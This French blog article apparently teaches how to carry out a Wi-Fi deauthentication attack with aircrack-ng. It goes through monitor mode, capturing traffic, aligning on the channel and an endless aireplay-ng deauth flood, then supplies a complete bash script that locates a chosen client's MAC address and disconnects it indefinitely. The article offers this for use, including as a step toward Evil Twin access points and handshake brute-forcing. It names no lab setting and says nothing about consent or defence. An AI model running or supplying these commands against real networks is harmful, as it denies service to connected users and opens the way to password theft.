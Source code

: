```yaml
---
weight: 4
title: "Attaque de désauthentification"
date: 2021-02-01T00:00:00+00:00
draft: false
author: "Nyxott"
description: "Effectuer une attaque de désauthentification Wi-Fi"
resources:
- name: "featured-image"
  src: "featured-image.png"

tags: ["Wi-Fi"]
categories: ["Wi-Fi"]

lightgallery: true
---
```


Cet article explique comment effectuer une attaque de désauthentification Wi-Fi.

<!--more-->

## Introduction

Une attaque de désauthentification Wi-Fi est une forme de déni de service ciblant la communication entre un client et un point d'accès Wi-Fi.

Cette attaque consiste à ce qu'un attaquant envoie des demandes de désauthentification à un accès Wi-Fi en se faisant passer pour un de ces clients. Cela a pour effet de déconnecter le client en question du point d'accès Wi-Fi.

Elle est, la plupart du temps, utilisé conjointement avec d'autres attaques.

Ainsi, un attaquant peut mettre en place un point d'accès Wi-Fi malveillant dans le cadre d'une attaque `Evil Twin`. Dans ce cas, l'attaquant pourra utiliser une attaque de désauthentification afin de déconnecter le client de son point d'accès Wi-Fi légitime pour le reconnecter sur le point d'accès malveillant.

Dans un autre contexte, un attaquant tentant de découvrir le mot de passe d'un point d'accès Wi-Fi peut utiliser cette méthode afin de déconnecter un client et récupérer le 4-Way Handshake pour ensuite effectuer une attaque brute-force.

Enfin, cette attaque de désauthentification peut tout simplement permettre de connaitre le SSID d'un point d'accès Wi-Fi caché.

## Installation des outils

On installe les outils nécessaires :
```shell
sudo apt install aircrack-ng
```

## Attaque

### Mode moniteur

Tout d'abord, il faut passer la carte Wi-Fi en mode moniteur afin de pouvoir écouter le trafic Wi-Fi environnant :
```shell
sudo airmon-ng start <INTERFACE>
```

{{< admonition >}}
Il est possible de trouver l'interface Wi-Fi via la commande suivante :
```shell
sudo iwconfig
```
{{< /admonition >}}

### Capture du trafic

Une fois la carte activée en mode moniteur, il est possible d'écouter le trafic Wi-Fi environnant grâce à la commande suivante :
```shell
sudo airodump-ng <INTERFACE>mon
```

Cette commande permet de récupérer énormément d'informations telles que, notamment :
* `BSSID` : L'adresse MAC du point d'accès ;
* `PWR` : La puissance du signal reçue. Plus le nombre est proche de 100, plus le signal est fort ; 
* `Data` : Le nombre de paquets de données capturés. Plus le nombre est élevé plus il y a d'activité ;
* `CH` : Le canal sur lequel la communication est effectuée ;
* `ENC` : L'algorithme de chiffrement utilisé ;
* `ESSID` : Le nom du point d'accès ;

De plus, elle permet également de récupérer l'adresse MAC des clients (STATION) connectés à chaque point d'accès détecté.

{{< admonition tip >}}
A tout moment, il est possible de couper l'écoute via un `ctrl + c`.
{{< /admonition >}}

### Alignement du canal

Une fois le point d'accès cible repéré, il est indispensable d'aligner la carte Wi-Fi sur le même canal que celui-ci afin de pouvoir correctement communiquer.

Cela est possible via la commande suivante :
```shell
sudo airodump-ng -d <BSSID> -c <CH> wlp2s0mon
```

{{< admonition tip >}}
Il est possible d'effectuer immédiatement un `ctrl + c` puisque l'aligmenent sur le bon canal est instantané.
{{< /admonition >}}

### Désauthentification

Une fois toutes ces étapes effectuées, il est désormais possible d'exécuter l'attaque via la commande suivante :
```shell
sudo aireplay-ng -0 0 -a <BSSID> -c <STATION> <INTERFACE>mon
```

{{< admonition >}}
Le `0` (à ne pas confondre avec le `-0`) permet d'envoyer des trames de désauthentification indéfiniment.
Il est possible de modifier ce nombre par `10`, par exemple, si l'on souhaite envoyer uniquement dix trames de désauthentification.
{{< /admonition >}}

{{< admonition tip >}}
Si l'option `-c <STATION>` n'est pas précisée, l'ensemble des clients connecté au point d'accès seront désauthentifiés.
{{< /admonition >}}

{{< admonition tip >}}
Lorsque des trames de désauthentification sont envoyées indéfiniment, il est possible d'effectuer un `ctrl + c` pour y mettre fin.
{{< /admonition >}}

### Mode station

Une fois l'attaque effectué, il est possible de désactiver le mode moniteur de la carte Wi-Fi via la commande suivante :
```shell
sudo airmon-ng stop <INTERFACE>mon
```

## Attaque automatisée

Répéter toutes ces commandes peut être contraignant notamment si l'on connaît déjà l'adresse MAC de la cible.

Partant de ce constat, la création d'un script automatisant cette attaque peut s'avérer utile.

```bash
#!/bin/bash

TARGET="<TARGET_MAC_ADDRESS>"

echo -e "\e[97mActivating monitor mode...\e[0m"
sudo airmon-ng start wlp2s0 > /dev/null 2>&1
echo -e "\e[1;92mOK\e[0m\n"

echo -e "\e[97mCleanning old file...\e[0m"
sudo rm airodump-01.csv > /dev/null 2>&1
echo -e "\e[1;92mOK\e[0m\n"

echo -e "\e[97mScanning access points...\e[0m"
sudo airodump-ng -w airodump --output-format csv wlp2s0mon > /dev/null 2>&1 &
sleep 20
sudo killall -15 airodump-ng
echo -e "\e[1;92mOK\e[0m\n"

echo -e "\e[97mSearching target...\e[0m"
AP_TARGET=`grep $TARGET airodump-01.csv | cut -d "," -f 6 | xargs` > /dev/null 2>&1

if [ $AP_TARGET ]; then
	echo -e "\e[1;92mOK\e[0m\n"

	echo -e "\e[97mSearching additional information...\e[0m"
	TEMP=`grep $AP_TARGET airodump-01.csv | head -n 1`
	CHANNEL_TARGET=`echo $TEMP | cut -d "," -f 4 | xargs` > /dev/null 2>&1
	NAME_AP_TARGET=`echo $TEMP | cut -d "," -f 14 | xargs` > /dev/null 2>&1
	sudo airodump-ng -d $AP_TARGET -c $CHANNEL_TARGET wlp2s0mon > /dev/null 2>&1 &
	sleep 1
	sudo killall -15 airodump-ng
	echo -e "\e[1;92mOK\e[0m\n"

	echo -e "\e[1;97m$TARGET\e[0m\e[97m detected on \e[0m\e[1;97m$NAME_AP_TARGET\e[0m\e[97m (\e[0m\e[1;97m$AP_TARGET\e[0m\e[97m)\e[0m\n"
	
	if [ "$1" = "attack" ]; then
		echo -e "\e[97mStarting attack...\e[0m"
		sudo aireplay-ng -0 0 -a $AP_TARGET -c $TARGET wlp2s0mon
		echo -e "\e[1;92mOK\e[0m\n"
	fi
else
	echo -e "\e[1;91mNO\e[0m\n"
fi

echo -e "\e[97mDeactivating monitor mode...\e[0m"
sudo airmon-ng stop wlp2s0mon > /dev/null 2>&1
echo -e "\e[1;92mOK\e[0m"

```

Il suffit d'indiquer l'adresse MAC de la cible et le script se chargera automatiquement de détecter si la cible est connectée à un point d'accès Wi-Fi. Si tel est le cas, le script enverra indéfiniment des trames de désauthentification au point d'accès Wi-Fi en question afin de désauthentifier la cible.

{{< admonition tip >}}
`./<SCRIPT_NAME>` : Permet de savoir si la cible est connectée ou non. Si elle l'est, le script indiquera sur quel point d'accès elle se trouve sans effectuer d'attaque.

`./<SCRIPT_NAME> attack` : Permet de savoir si la cible est connectée ou non. Si elle l'est, le script indiquera sur quel point d'accès elle se trouve et effectuera l'attaque.
{{< /admonition >}}
